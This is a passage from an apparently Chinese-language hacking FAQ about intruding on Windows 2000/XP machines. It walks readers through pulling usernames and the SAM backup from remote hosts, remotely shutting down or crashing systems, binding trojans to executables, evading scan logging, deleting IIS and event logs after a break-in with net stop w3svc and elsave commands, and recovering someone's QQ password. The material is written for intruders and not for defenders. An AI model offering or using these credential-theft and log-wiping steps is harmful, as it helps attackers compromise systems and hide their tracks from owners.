

图76



图78

这个注册表编辑器与 regedit 的最主要的区别就是在于它可以进行权限的设置。依次打开“注册表－选择计算机”，会弹出一个卡片，要求输入或是选择一台计算机，输入要连接的远程计算机（图79）。



图77


图79

连接完成后，来到如下位置：HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names，这下面的主键的值就是用户名。

然后点确定，一会就会连接成功了。找到远程主机上的 HKEY_LOCAL_MACHINE 键值，仍然是到这个位置：HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names，在这里，将可以看到以用户名来命名的一串主键（图80）。



图80

如果在这里还不能看见的话，那就需要反复进行几次连接，以便多刷新几次。如果还不行的话，而且确定你拿到的账号是管理员账号，那么就到“安全－权限”菜单中去设置一下权限即可。

哦，忘了说了，在 regedt32 下，断开远程注册表的办法是点“注册表－关闭”，点第一次关闭将关闭远程连接到的远程注册表，再点一次的话，将关闭本地注册表。

## 第六章

- 问：我扫到一个 cgi 漏洞 /images 怎么利用？  
- 答：一般 /images 这样的目录都是用来存放图片的，你最多也就是看看人家那里有什么好图片吧。如果侥幸的话，也许会有些有用的东西，你可以这样访问看看：http://www.xxx.com/images。一般情况下是不会有什么有利用价值的东西的，但是，如果真的有的话，那可就赚大了啊。

- 问：到底什么才是 CGI 漏洞啊？  
- 答：CGI 漏洞主要是由于程序编写者在编写代码的时候引起的错误，不是很容易说清楚，我们就打个比方。例如，在制作一个 ASP+ACCESS 的 web 站点的时候，我们把数据库文件放在 /database 目录下（一般编写者不会放在这么容易被猜出来的目录下的，只是打个比方而已）。

接下来，我们考虑最糟糕的一种状况，那就是对方允许目录浏览，而且没有对 /database 的访问进行过滤，那么这个时候，我们使用这个地址来访问：http://www.xxx.com/database。

这时候，就会将 database 目录下的所有数据库文件以列表的形式列出来（图81）。



图81

这时候，我们只要点击其中的一个数据库文件，就可以将它下载到本地机上（图82）。



图82

## 黑客入侵常见问题

这样，如果数据库中保存有明文的密码或是重要信息的话，嘿嘿，后果就很惨了。

当然，这种情况几乎很少见，但是，这就是一个最典型的 CGI 漏洞了。不知道大家对 CGI 漏洞是否有点了解了。

当然，像我这样模拟出来的情况在实际中是不多见的，但是，很多的 CGI 漏洞都是有着类似原理的。例如，将数据库文件放在一个很容易猜到的文件夹中，而且数据库的名字也很有规律，这样很容易就被猜到并被下载。

- 问：我 telnet 到一台主机上，该怎么做才能知道当前的操作系统？

用 ver 命令可以查看版本号的。但是，例如版本号为 5.00.2195 的话，则为 Win2k，5.1.2600 则为 XP。由于 win9X/ME 以前的版本没有自带 telnet 服务端，所以不讨论。



图83

从这些版本号只能判断和区别 2k 和 XP，至于具体为哪一个版本则无法判断。但是，在 telnet 下，我们可以通过服务来判断的。这里，我们使用 net start 命令来查看已启动的服务，从这些服务中，我们经常就可以得知该主机的具体版本是什么。

例如，我这里通过 net start 命令找到了主机的 Terminal Services 服务已经开启，然后再用 ver 命令看一下，这就可以断定该主机是 win2k svr 或是更高的版本（图83）。

如果是 XP 的 professional 和 Home Edition 怎么区别判断呢？呵呵，想一想哦，Home Edition 是无法安装 IIS 服务的，不是吗？所以嘛，通过这个服务就可以完全区分开 Home Edition 和 professional 了。但是，如果 professional 将 IIS 删除或是停止掉了相关服务的话……汗……惨了，认倒霉吧，我是没办法了。

- 问：我连接到了对方的机器上，但是 C:\WINNT\system32\config 下的 SAM 文件 copy 不下来，怎么办？

这种情况很正常，如果对方运行着 win2k 的系统的话，那么，SAM 文件就是受到保护的，因此对此文件是不能进行读写的，copy 当然也不可以。

你可以试着到 C:\WINNT\repair 目录下去拿一个同样名为 sam 的文件，这个是 SAM 的备份。从里面也可以获得很多有用的东西的。

- 问：如何才能实现远程关机或是重启呢？

首先，要先能保证对方和本机使用的都是 win2k 的操作系统。然后，使用 win2k svr 的工具箱 resource kit 中的工具 shutdown.exe（图84）。



使用该工具具有一定的危险性，大家可以自己做一下实验，一旦运行命令成功的话，在对方的主机上会显示还有 xx:xx 秒计算机将会关闭（或是重启）。另外，下面还有一些小字，仔细看会发现上面写着是哪台机器使用 shutdown 命令正在关闭该计算机。

- shutdown \\computer_name：是用来远程关机
- shutdown \\computer_name /R：是用来远程重启的
- shutdown \\computer_name /T:10：指定在 10 秒后关机，这个数可以自己设置（越小越好），至于是否能为零可自行测试

- 问：Win2k 的终端服务除了有可能存在输入法漏洞以外还有什么其他漏洞吗？

有。但是该漏洞默认情况下是无法使用的，需要在远程主机上修改，而且该漏洞可以造成对方死机。对方要修改注册表：

```
HKEY_LOCAL_MACHINE\CurrentControlSet\Services\i8042prt\Parameters

CrashOnScroll = 1
```

下面增加一个 DWORD 值名为 CrashOnScroll，设置其值为一个不为零的值，例如为 1。然后用终端服务的客户端连接该主机，登录后，按住键盘右边的 ctrl 键，同时按下两次 ScrollLock，这样就可以 crash 掉整个系统，并且会在 C:\WINNT 下 dump 当前的完整内存，名为 memory.dmp。

该方法是在微软的官方网站上有公布的，所以，也许它并不是一个漏洞。倒可以将它作为一个用来 dump 内存的方法来使用，而且我始终搞不明白，为什么要按右 ctrl 键 + ScrollLock，很多笔记本键盘上是没有右 ctrl 键的，怎么办？呵呵，盖茨这不是故意难为这些用户嘛。

- 问：知道哪款扫描器最好，被扫描过的主机上不会留下记录。

就 Win2k 系统来说，一般的扫描都是不会留下太过明显的记录。但是，有些地方只要进行过扫描的话，一定会有记录的，那就是 IIS 的记录。像一般的主机上如果启动了 WEB 服务器和 FTP 这类服务，无论是使用微软的 IIS 还是用其他的软件，都会有大量的记录。无论哪款扫描器，都会留下的，所以说，除了避免扫描这些过于敏感的端口以外，基本上是没有什么好办法了。另外，一般的服务器都会装有防火墙，防火墙是不会对那些扫描视而不管的，它也会对这些扫描有所记录，所以要小心。

- 问：在使用 NETxray 时提示我未能打开适配器，不知道是什么意思？  
- 答：发生这种情况的话，常见的是因为在选择网卡的时候选择错误，导致不能找到正确的网卡，因此就产生了不能打开适配器的错误信息。另外，还有可能就是因为网卡上没有插网线，或者即使插了网线也没有能与其他主机连接而导致的。

- 问：有没有什么办法可以将两个文件捆绑在一起，当运行其中一个的时候，另外一个也运行。  
- 答：捆绑机的作用就是将两个文件捆绑，在运行的时候两个程序同时运行。一般情况下，捆绑是将两个 exe 文件进行捆绑的，这里推荐使用广外女生的捆绑机（图85）。



这个捆绑机可以将多个文件捆绑为一个文件。这就是最重要的优点。不过，捆绑后的图标并不好看，需要找一些工具来美化美化才可以，否则的话，很容易上当。

- 问：入侵成功清除日志的时候，在 W3SVC1 文件夹中有个文件 ex20503.log 总是提示正在使用中，不能删除，怎么办？  
- 答：W3SVC 是一个服务，它的作用就是记录 web 服务器的日志，而且这个日志默认是启动的，也就是说，它是随时都在记录并将日志写入文件的。无法删除的那个文件就应该是该服务正在写入的文件，解决办法两个：

- 1. 停止 W3SVC 这个服务，只要命令 `net stop w3svc` 就可以了（图86）。

```
C:\>net stop w3svc
World Wide Web Publishing Service 服务正在停止。
World Wide Web Publishing Service 服务已成功停止。

C:\>
```

图86

- 2. 修改对方的系统时间，因为这个日志是按照时间来记录的（由文件名就可以看出来），只要时间改变了，那么该服务就将使用另外一个文件开始记录，所以修改时间后，就可以删除原来不允许删除的文件了。改变时间的命令是 `time`，改变日期的命令是 `date`。

- 问：有没有什么工具可以用来清除 Win2k 的日志？  
- 答：小榕的工具 elsave，这个可以用来清除 win2k 的日志（图87）。

```
E:\hack-tool\elsave\elsave -?
usage: elsave [-s \\server] [-l log] [-F file] [-C] [-q]
Saves and/or clears a Windows NT event log...
...
```

图87

它是用来清除 Win2k 的“安全日志”“应用程序日志”和“系统日志”的。清除这三个日志的命令分别为：

```
elsave -s \\192.168.0.1 -l "application"  C    清除应用程序日志
elsave -s \\192.168.0.1 -l "system"       C    清除系统日志
elsave -s \\192.168.0.1 -l "security"     C    清除安全日志
```

- 问：用 x-scan 扫描时活动线程突然变得很低，只有 2，应该是什么原因？

- 答：不止是 x-scan，还有其他很多的扫描工具都会根据当前的条件来对线程进行调整，以达到最优的扫描状态。因此，在线路相对较忙的时候，线程肯定会被自动调整得比较低，这都是正常的。另外，如果线路和带宽确实不允许的话，最好能手动将线程设置得低一些，这样才能发挥扫描工具的作用。

- 问：我想在 windows 下用 NMAP，是不是需要编译啊？



图88

- 答：不需要了，因为早就有人帮你编译好了，现在有 NMAP FOR WIN 的版本，现在最新的版本是 3.1 版的，用法和参数在 LINUX 下的完全一样（图88）。

- 问：有人用过了我的机器，但是走的时候没有关 QQ，这样的话，我能获得他的 QQ 密码吗？

- 答：在早一些版本的 QQ 中，存在这样的 bug，就是如果 QQ 没关的话，可以获得密码，但是现在的版本都不行了。虽然都已经过去了，但是还是讲一下早期版本中的这个漏洞吧。在 QQ 左下角，点一下那一行“QQ 2000”，然后选择更改用户（图89）。



图89

然后，会弹出来一个 QQ 的登录对话框（图90），在这里，显示的号码是当前的 QQ 号，而且早期版本的话，下面的密码处不会为空，而会是一堆的星号（*）。这时候，我们只要找个查看星号密码的工具就可以看到该用户的密码是什么了。

